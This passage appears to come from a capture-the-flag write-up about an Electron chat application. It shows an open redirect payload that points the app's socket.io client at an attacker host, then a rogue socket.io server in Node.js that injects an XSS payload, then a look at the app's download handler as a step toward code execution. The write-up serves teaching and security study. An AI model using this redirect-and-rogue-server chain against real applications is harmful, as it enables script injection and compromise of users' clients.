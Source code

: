 But, if a request comes with two slashes (for example //heroctf.fr), the server will act as follow :

```
GET //heroctf.fr?data=a HTTP/1.1
[...]

HTTP/1.1 307 Temporary Redirect
Location: //heroctf.fr
```

In javascript, `//` is considered as the actual scheme (http or https), so we have here an open redirect ! A malicious user can therefore report the following conversation to trigger the open redirect : `123e4567-e89b-12d3-a456-426614174000/../..//heroctf.fr/?data=a`.

In order for socket.io to connect to the rogue socket.io server, the open redirect must contain the `EIO` GET parameter, and the full path to the socket.io endpoint : `123e4567-e89b-12d3-a456-426614174000/../..//attacker.fr/socket.io/?EIO=4&data=a`

Previously, we see that the client was trusting the backend server because message were sanitize, but as we now act as an evil rogue server, we can send messages that contains XSS :

```js
const http = require('http');
const socketIo = require('socket.io');

const server = http.createServer();
const io = socketIo(server, {
    cors: {
        origin: "*",
        methods: ["GET", "POST"]
    }
});

io.on('connection', (socket) => {
    console.log('Victim connected');
    socket.emit('response',`USER: <img src=x onerror='alert(1)'>`);
});

const port = 4444;

server.listen(port, "0.0.0.0", () => {
    console.log(`Rogue socket.io server listening on http://0.0.0.0:${port}`);
});

```

Now that we have javascript code execution on the bot, we must found a way to gain remote code execution. As said before, all protections are activated and the process is sandboxed, if we observe the `main.js` file of the electron application, we can see that the download feature is overwrriten :

```js
[...]
const ses = session.defaultSession;

ses.on('will-download', (_, item, __) => {
    let filePath = path.join(app.getPath('downloads'), Math.random().toString(36).substring(2, 15), item.getFilename());
    filePath = path.normalize(Buffer.from(filePath, "ascii").toString());
    item.setSavePath(filePath);
});
[...]
```
